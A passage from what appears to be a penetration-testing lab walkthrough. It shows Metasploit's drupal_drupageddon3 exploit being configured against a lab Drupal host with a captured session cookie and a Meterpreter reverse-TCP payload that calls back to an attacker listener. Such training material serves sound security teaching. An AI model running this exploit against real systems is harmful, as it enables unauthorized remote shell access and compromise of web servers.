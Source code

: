 <figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once we have the session cookie, we can set up the exploit module as follows.

```shell-session
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   User register form with exec
```